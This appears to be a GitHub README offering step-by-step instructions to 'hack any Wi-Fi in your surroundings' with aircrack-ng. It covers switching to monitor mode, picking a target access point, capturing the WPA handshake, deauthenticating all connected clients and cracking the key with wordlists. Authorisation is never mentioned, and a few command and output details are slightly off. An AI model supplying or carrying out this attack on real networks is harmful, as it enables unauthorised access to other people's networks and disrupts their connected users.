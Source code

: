# Hack Wi-Fi
This repo contains every step to hack any Wi-Fi in your surroundings.  

**The basic requirement is having a Linux distro booted in your Machine or in a Virtual Machine.**
   - Using VM requires an external Wi-Fi network adapter that should support monitor mode. (Recommended: Alfa network adapter)
   - Using your machine doesn't require any external Wi-Fi adapter if the internal one supports monitor mode.  

## Install aircrack-ng:  
Arch:
```
sudo pacman -S aircrack-ng
```
Kali:
```Managed
sudo apt-get update
sudo apt-get upgrade aircrack-ng
```
Ubuntu/Debian:
```
sudo apt-get update
sudo apt-get install aircrack-ng
```
Fedora:
```
sudo dnf install aircrack-ng
```


## Check your wireless LAN adapter name:
```
ip addr
```
**Find your LAN adapter name below:**  
Here it is wlan0.
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 123.0.0.4/5 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp2s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether 04:42:1a:d0:ee:f4 brd ff:ff:ff:ff:ff:ff
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 90:e8:68:2c:e8:77 brd ff:ff:ff:ff:ff:ff
    inet 192.168.139.57/16 brd 192.168.255.255 scope global dynamic noprefixroute wlan0
       valid_lft 84054sec preferred_lft 84054sec
    inet6 fe80::a3f5:fa53:55c:b0e7/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```


## Change your adapter from managed mode to monitor mode
**Check it's mode:**
```
iwconfig
```
It should be in managed mode at its initial stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0     IEEE 802.11  ESSID:"LIBRARY"  
          Mode:Managed  Frequency:5.2 GHz  Access Point: A4:2A:95:2C:33:44   
          Bit Rate=585 Mb/s   Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=63/70  Signal level=-47 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

```
**Checking for any conflicting process to kill them:**
```
sudo airmon-ng check kill
```  

**Changing the LAN to monitor mode:**
```
sudo airmon-ng start wlan0
```
Your Wi-Fi connection is deactivated now.

**Check it's mode now:**
```
iwconfig
```
It should be in monitor mode at this stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0mon  IEEE 800.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
If you try to check, the wlan0 name is changed to wlan0mon, because we have changed it to monitor mode.  



## Discover the Access Points:
```
sudo airodump-ng wlan0mon
```
A whole bunch of wireless networks will be discovered here. From there note the BSSID(Would be found in the BSSID column) and the Channel(Would be found in the CH column) of your targeted wireless network. After being done with noting down that information, stop (Ctrl + C) the process.  

**Display only the targetted access point:**
```
sudo airodump-ng wlan0mon -d <BSSID>
```
Replace the above < BSSID > with your targetted network's BSSID that you noted before.  

It will show the information of your targetted network and below it shows the connected device with that network. If you see it is empty below that means,  no devices are connected with that network, and in that case, you need to connect a device so that the handshake file can be exchanged with the AP(Access Point) and you get the chance to capture it on it's way. When you see any connected device below, stop (Ctrl + C) the process.



## Storing the captured HandShake file to the local:
```
sudo airodump-ng -w getpass -c <CHANNEL> --bssid <BSSID> wlan0mon
```
Replace < CHANNEL > with the channel for your targeted network and < BSSID > with your BSSID.  

Here ```getpass``` is going to be the file name of the handshake file we would store.
Don't stop the process (Follow the next steps instead) and leave it till we send the de-authentication request and get the handshake file.



## Send the De-Authentication request:
Open a new console window and input the command there. That means you are instructed not to kill the process of the previous tab. That should be opened because we will get that file on that other window only.  
Enter the below command in the new tab of the console.
```
sudo aireplay-ng deauth 0 -a <BSSID> wlan0mon
```
Replace < BSSID > with your BSSID of the targeted AP.  

This sends the De-Authentication request to the targetted network which means, that each and every connected device will be disconnected and will try to reconnect with the AP again. This is the time we will capture the handshake file and will store it locally. Stop the process after 30 to 45 seconds.



## Checking the directory if the Handshake is captured:
```clear``` all the commands.
List the current directory by ```ls```
If any file named ```getpass-01.cap```is found that means the file is captured and it is ready to be cracked.
If nothing is found named ```getpass-01.cap``` that means the whole process should be completed correctly again.



## Cracking the HandShake file using aircrack-ng:
Cracking that file needs some wordlists. Few wordlists are available in this repo and anyone from this should be downloaded.  
List the directory by ```ls``` to make sure both the wordlist and the Handshake file are present there.  

**Use the below command to crack the key:**  
```aircrack-ng getpass-01.cap -w <WORDLIST-PATH>```  
Replace < WORDLIST-PATH > with the path of the wordlist downloaded.  

_Now the output is either 'THE KEY IS FOUND' or 'THE KEY IS NOT FOUND'. If the key couldn't be found in that particular wordlist, try with a few other wordlists available._  



## Switch to managed mode again from monitor mode:
```
sudo airmon-ng stop wlan0
```
Your Wi-Fi connection is activated now.
